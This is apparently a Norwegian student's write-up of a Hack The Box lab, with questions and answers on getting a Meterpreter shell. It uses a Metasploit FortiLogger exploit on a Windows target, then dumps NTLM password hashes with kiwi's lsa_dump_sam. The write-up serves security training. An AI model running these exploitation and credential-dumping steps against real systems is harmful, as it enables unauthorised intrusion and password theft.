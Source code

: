 # Meteperter

## Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?

For å løse denne gjør jeg en rask nmap scan på domenet. Jeg finner prosessen jeg kan exploite, som er "Fortilogger"

<br>

Start metasploit med `msfconsole -q`


`search fortilogger`

`use 0`

`set RHOTS *ip*`

`set LHOST tun0`

`run`

<br>

![picture1](https://user-images.githubusercontent.com/83395536/194724526-3ab048e5-345d-493a-9a4b-5a5f0b61d166.png)
<br>

Spørsmålet ønsker at vi skal finne ut hva brukernavet er til brukeren vi nettop kom innpå. For å finne det ut kjører vi bare `getuid` for å få brukernavnet siden maskinen vi kom inn på er Windows. Dette kan vi se med at det er en C:\Windows
<br>
<br>

## Retrieve the NTLM password hash for the "htb-student" user. Submit the hash as the answer.

Vi lærte i modulen hvordan vi får NTLM passord, og det er derfor jeg velger å kjøre en `load kiwi` for å få disse ekstra kommandoene. 

<br>

For å få passord hashene kjører jeg `lsa_dump_sam`, og skroller ned til jeg finner brukeren "htb-student". 

<br>

![hack2](https://user-images.githubusercontent.com/83395536/194724535-dc59360b-0745-4899-9e90-252eeff910e7.png)

<br>
![hack3](https://user-images.githubusercontent.com/83395536/194724534-4c0c569a-65c7-430c-b289-9a2c12f39181.png)
<br>

Gratulerer, du har hacket en maskin der du fikk NTLM passordene til en bruker!

